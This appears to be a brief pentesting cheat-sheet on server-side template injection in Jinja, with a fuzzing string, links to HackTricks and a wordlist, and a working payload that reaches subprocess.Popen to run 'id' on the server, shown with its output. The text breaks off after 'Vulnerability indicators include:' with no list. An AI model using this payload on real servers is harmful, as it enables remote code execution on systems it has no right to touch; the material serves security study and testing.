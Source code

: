 Server-side template injection is a vulnerability that occurs when an attacker can inject malicious code into a template that is executed on the server. This vulnerability can be found in various technologies, including Jinja.

To detect Server-Side Template Injection (SSTI), initially, **fuzzing the template** is a straightforward approach. This involves injecting a sequence of special characters (`${{<%[%'"}}%\`) into the template and analysing the differences in the server's response to regular data versus this special payload. Vulnerability indicators include:
# Guide

1. [SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
2. Can access `subprocess.Popen` and use it to Remote Code Execution
```
python3 client.py '{{{}.__class__.__base__.__subclasses__()[400]("id", shell=True, stdout=-1).communicate()[0].decode()}}' | grep '<p>' <p>uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

## Wordlist

[SSTI/Wordlist at master · err0rr/SSTI · GitHub](https://github.com/err0rr/SSTI/blob/master/Wordlist)